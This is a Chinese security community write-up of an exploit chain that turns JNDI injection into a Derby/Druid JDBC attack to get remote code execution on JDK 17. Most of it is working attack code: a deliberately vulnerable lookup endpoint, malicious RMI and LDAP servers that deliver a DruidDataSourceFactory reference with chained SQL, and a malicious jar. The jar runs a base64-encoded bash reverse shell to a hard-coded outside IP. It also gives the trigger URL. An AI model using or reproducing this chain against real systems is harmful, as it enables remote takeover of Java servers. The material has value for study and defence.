








# 高版本JDK下Derby配合Druid转换JNDI注入为Jdbc攻击绕过-先知社区

> **来源**: https://xz.aliyun.com/news/16916  
> **文章ID**: 16916

---

​

## 高版本JDK下Derby配合Druid转换JNDI注入为Jdbc攻击绕过

先看一下lib依赖，很明显使用了derby10.14.2.0版本  


pom.xml

```
<?xml version="1.0" encoding="UTF-8"?>  
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">  
    <modelVersion>4.0.0</modelVersion>  
    <parent>  
        <groupId>org.springframework.boot</groupId>  
        <artifactId>spring-boot-starter-parent</artifactId>  
        <version>3.2.1</version>  
        <relativePath/> <!-- lookup parent from repository -->  
    </parent>  
    <groupId>com.example</groupId>  
    <artifactId>Derby</artifactId>  
    <version>0.0.1</version>  
    <name>Derby</name>  
    <description>Derby</description>  
    <properties>  
        <java.version>17</java.version>  
    </properties>  
    <dependencies>  
        <dependency>  
            <groupId>org.springframework.boot</groupId>  
            <artifactId>spring-boot-starter-web</artifactId>  
        </dependency>  
        <dependency>  
            <groupId>com.alibaba</groupId>  
            <artifactId>druid</artifactId>  
            <version>1.2.21</version>  
        </dependency>  
        <dependency>  
            <groupId>org.apache.derby</groupId>  
            <artifactId>derby</artifactId>  
            <version>10.14.2.0</version>  
        </dependency>  
    </dependencies>  
  
    <build>  
        <plugins>  
            <plugin>  
                <groupId>org.springframework.boot</groupId>  
                <artifactId>spring-boot-maven-plugin</artifactId>  
            </plugin>  
        </plugins>  
    </build>  
  
</project>
```

路由源码如下

```
package com.example.derby;  
  
import javax.naming.Context;  
import javax.naming.InitialContext;  
import org.springframework.web.bind.annotation.RequestMapping;  
import org.springframework.web.bind.annotation.RequestParam;  
import org.springframework.web.bind.annotation.RestController;  
  
@RestController  
public class IndexController {  
    public IndexController() {  
    }  
  
    @RequestMapping({"/"})  
    public String index() {  
        return "hello derby";  
    }  
  
    @RequestMapping({"/lookup"})  
    public String lookup(@RequestParam String url) throws Exception {  
        Context ctx = new InitialContext();  
        ctx.lookup(url);  
        return "ok";  
    }  
}
```

路由调用了lookup造成了jndi注入漏洞，其他依赖只有druid连接池和derby数据库。

并且是JDK17，在这个环境下还是需要利用一些额外的类去绕过，在**Tomcat**某些版本是可以**BeanFactory**配合**EL**去实现命令执行的，但本次我们研究利用**Druid连接池**的攻击

## Druid 远程加载jar调用方法

Derby 能够通过SQL 加载远程 jar, 再调用 jar 内的方法, 实现 RCE：

1、创建一个java 编译并打包成jar，放置在对应站点下，如：

```
import java.io.IOException;

public class testShell4 {
    public static void exec() throws IOException {
        Runtime.getRuntime().exec("cmd.exe /c calc");
    }
}
```

注意：方法要是**static方法**

2、sql语句部分如下：

`INSTALL_JAR`远程下载jar将类导入到数据库中

```
CALL SQLJ.INSTALL_JAR('http://127.0.0.1:8088/test3.jar', 'APP.Sample4', 0)
```

将这个类加入到derby.database.classpath，这个属性是动态的，不需要重启数据库

```
CALL SYSCS_UTIL.SYSCS_SET_DATABASE_PROPERTY('derby.database.classpath','APP.Sample4')
```

创建一个PROCEDURE，EXTERNAL NAME 后面的值可以调用类的static类型方法

```
CREATE PROCEDURE SALES.TOTAL_REVENUES() PARAMETER STYLE JAVA READS SQL DATA LANGUAGE JAVA EXTERNAL NAME 'testShell4.exec'
```

调用PROCEDURE实现RCE。

```
CALL SALES.TOTAL_REVENUES()
```

## Jndi攻击->Jdbc攻击 调试分析

​

**Druid是一个JDBC组件，它包括三个部分：**

基于Filter－Chain模式的插件体系。

DruidDataSource 高效可管理的数据库连接池。

SQLParser

我们知道JNDI注入攻击函数lookup调试会调用重要函数getOBjectInstance()来实例化我们得恶意类

​

DruidDataSourceFactory#getObjectInstance如下

```
public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws Exception {
    if (obj != null && obj instanceof Reference) {
        Reference ref = (Reference)obj;
        if (!"javax.sql.DataSource".equals(ref.getClassName()) && !"com.alibaba.druid.pool.DruidDataSource".equals(ref.getClassName())) {
            return null;
        } else {
            Properties properties = new Properties();

            for(int i = 0; i < ALL_PROPERTIES.length; ++i) {
                String propertyName = ALL_PROPERTIES[i];
                RefAddr ra = ref.get(propertyName);
                if (ra != null) {
                    String propertyValue = ra.getContent().toString();
                    properties.setProperty(propertyName, propertyValue);
                }
            }

            return this.createDataSourceInternal(properties);
        }
    } else {
        return null;
    }
}
```

调用了createDataSourceInternal



之后跟踪进入config



config调用init初始化



继续跟踪进入createPhysicalConnection



最终在initSqls完成JDBC连接



并且发现连接的时候会执行SQL语句



​

我们效仿h2，也寻找是否有初始化的sql语句，到这里就转变为了sql可控的注入。而derby数据库也是可以加载Jar包的，我们翻阅.DruidDataSourceFactory源码 不难发现存在 initConnectionSqls 参数



​

但是这些参数并不是写在 JDBC得URL 里面, 而是跟上面的 driverClassName, url, username, password 一样, 写在 StringRefAddr 里面，StringRefAddr 只能传入字符串, 那么 initConnectionSqls 内的 SQL 语句就需要用分号分割

​

## Attack

关于这个DruidDataSourceFactory的reference注入，放在RMI或是LDAP服务端都可以

RMI:

```
import com.sun.jndi.rmi.registry.ReferenceWrapper;

import javax.naming.Reference;
import javax.naming.StringRefAddr;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class DerbyEvilServer {
    public static void main(String[] args) {
        try{
            Registry registry = LocateRegistry.createRegistry(1099);
            Reference ref = new Reference("javax.sql.DataSource","com.alibaba.druid.pool.DruidDataSourceFactory",null);
            String JDBC_URL = "jdbc:derby:dbname;create=true";
            String JDBC_USER = "root";
            String JDBC_PASSWORD = "password";

            ref.add(new StringRefAddr("driverClassName","org.apache.derby.jdbc.EmbeddedDriver"));
            ref.add(new StringRefAddr("url",JDBC_URL));
            ref.add(new StringRefAddr("username",JDBC_USER));
            ref.add(new StringRefAddr("password",JDBC_PASSWORD));
            ref.add(new StringRefAddr("initialSize","1"));
            ref.add(new StringRefAddr("initConnectionSqls","CALL SQLJ.INSTALL_JAR('http://host.docker.internal:8000/Evil.jar', 'APP.Sample4', 0);CALL SYSCS_UTIL.SYSCS_SET_DATABASE_PROPERTY('derby.database.classpath','APP.Sample4');CREATE PROCEDURE SALES.TOTAL_REVENUES() PARAMETER STYLE JAVA READS SQL DATA LANGUAGE JAVA EXTERNAL NAME 'testShell4.exec';CALL SALES.TOTAL_REVENUES();"));
            ref.add(new StringRefAddr("init","true"));
            ReferenceWrapper referenceWrapper = new ReferenceWrapper(ref);

            registry.bind("pop",referenceWrapper);
        }
        catch(Exception e){
            e.printStackTrace();
        }
    }
}
```

我们搞一个ldap

```
package com.example.derby;

import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;

import javax.naming.Reference;
import javax.naming.StringRefAddr;
import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.net.InetAddress;
import java.util.ArrayList;
import java.util.List;

public class main {
    private static final String LDAP_BASE = "dc=example,dc=com";

    public static void main(String[] args) {

        int port = 1389;

        try {
            InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
            config.setListenerConfigs(new InMemoryListenerConfig(
                    "listen",
                    InetAddress.getByName("0.0.0.0"),
                    port,
                    ServerSocketFactory.getDefault(),
                    SocketFactory.getDefault(),
                    (SSLSocketFactory) SSLSocketFactory.getDefault()));

            config.addInMemoryOperationInterceptor(new OperationInterceptor());
            InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
            System.out.println("Listening on 0.0.0.0:" + port);
            ds.startListening();
        }
        catch (Exception e) {
            e.printStackTrace();
        }
    }
    public static byte[] serialize(Object obj) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(obj);
        return baos.toByteArray();
    }
    private static class OperationInterceptor extends InMemoryOperationInterceptor {

        @Override
        public void processSearchResult(InMemoryInterceptedSearchResult result) {
            String base = result.getRequest().getBaseDN();
            Entry e = new Entry(base);

            e.addAttribute("javaClassName", "foo");
            try {
                List<String> list = new ArrayList<>();
                list.add("CALL SQLJ.INSTALL_JAR('http://ip:8999/Evil.jar', 'APP.Evil', 0)");
                list.add("CALL SYSCS_UTIL.SYSCS_SET_DATABASE_PROPERTY('derby.database.classpath','APP.Evil')");
                list.add("CREATE PROCEDURE cmd(IN cmd VARCHAR(255)) PARAMETER STYLE JAVA READS SQL DATA LANGUAGE JAVA EXTERNAL NAME 'Evil.exec'");
                list.add("CALL cmd('bash -c {echo,base64数据}|{base64,-d}|{bash,-i}')");

                Reference ref = new Reference("javax.sql.DataSource", "com.alibaba.druid.pool.DruidDataSourceFactory", null);
                ref.add(new StringRefAddr("url", "jdbc:derby:webdb;create=true"));
                ref.add(new StringRefAddr("init", "true"));
                ref.add(new StringRefAddr("initialSize", "1"));
                ref.add(new StringRefAddr("initConnectionSqls", String.join(";", list)));

                e.addAttribute("javaSerializedData", serialize(ref));

                result.sendSearchEntry(e);
                result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
            } catch (Exception exception) {
                exception.printStackTrace();
            }
        }
    }
}
```

然后ida打包为jar上传到vps

​

制作恶意jar包如下

```
import java.io.IOException;  
  
public class testShell4 {  
    public static void exec() throws IOException {  
        Runtime.getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjQuMjIwLjM3LjE3My8yMzMzIDwmMQ==}|{base64,-d}|{bash,-i}");  
    }  
}
```

编译 + 打包成 jar

```
javac Evil.java
jar -cvf Evil.jar  Evil.class
```

将 Evil.jar 使用 Web Server 托管, 然后启动 LDAP Server, 最后访问 url进行RCE即可

```
http://127.0.0.1:10800/lookup?url=ldap://vps:1389/a
```
